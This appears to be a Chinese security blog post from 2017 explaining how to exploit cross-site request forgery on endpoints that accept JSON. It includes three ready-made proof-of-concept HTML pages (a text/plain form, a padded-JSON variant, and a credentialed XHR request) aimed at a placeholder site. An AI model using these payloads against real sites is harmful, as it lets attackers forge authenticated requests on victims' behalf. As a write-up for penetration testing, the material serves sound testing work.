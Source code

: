 ```yaml
---
id: 131
title: json csrf一个技巧
date: 2017-08-27T14:18:32+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=131
permalink: /?p=131
categories:
  - 未分类
---
```

好久之前看到的 于是乎收藏了下 只是略有些印象，然后前几天挖洞的时候遇到一个这样的漏洞，翻过去找找不到~~~~~~~~~

要克服懒惰的毛病啊 保存保存保存~~~~~~~  
json格式的csrf  
用form来提交，poc如下，把name置为一段JSON，其value置为空：

<pre class="pure-highlightjs"><code class="">&lt;html&gt;
   &lt;body&gt;
    &lt;form action="http://www.xxx.com/webnet/edit" method="POST" enctype="text/plain"&gt;
      &lt;input type="hidden" name="&#123;&quot;pSpotId&quot;&#58;&quot;120201&quot;&#44;&quot;pSignTimes&quot;&#58;&quot;70&quot;&#44;&quot;pModuleID&quot;&#58;&quot;207&quot;&#44;&quot;pSceneid&quot;&#58;&quot;120201007000046&quot;&#125;" value="" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
  &lt;/body&gt;
&lt;/html&gt;</code></pre>

&nbsp;

不过这样POST的数据包会多一个“=”，因为我们虽然把value置为空，然后还是会出现“name=”。  
我们可以给value赋值从而对这个“=”后面的数据进行补全，使得其构成一个完整的JSON格式，可避免解析器报错（JSON Padding

<pre class="pure-highlightjs"><code class="">&lt;html&gt;  
&lt;form action="http://www.xxx.com/webnet/edit" method="POST" enctype="text/plain"&gt;  
&lt;input name='{"pSpotId":"120201","pSignTimes":"70","pModuleID":"207","pSceneid":"120201007000046", "test":"' value='test"}'type='hidden'&gt;  
&lt;input type=submit&gt;  
&lt;/form&gt;  
&lt;/html&gt; </code></pre>

需要注意的是，在原始的数据包里Content-Type的值是application/json，而以form去提交是没法设置enctype为application/json的，在这里设置为text/plain，那么如何设置Content-Type的值呢？

所以我们需要利用XHR进行提交

https://en.wikipedia.org/wiki/XMLHttpRequest

<pre class="pure-highlightjs"><code class="">&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://www.xxx.com/webnet/edit", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"pSpotId":"120201","pSignTimes":"70","pModuleID":"207","pSceneid":"120201007000046"});
    }
    &lt;/script&gt;
    &lt;form action="#"&gt;
      &lt;input type="button" value="Submit request" onclick="submitRequest();"/&gt;
    &lt;/form&gt;
  &lt;/body&gt;
&lt;/html&gt;</code></pre>

在CORS标准中，定义了新的HTTP消息头Access-Control-Allow-Origin，使得服务端可以定义允许通过浏览器请求的域集合。另外，标准定义了当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。

在某些情况中，如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败，但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。

&nbsp;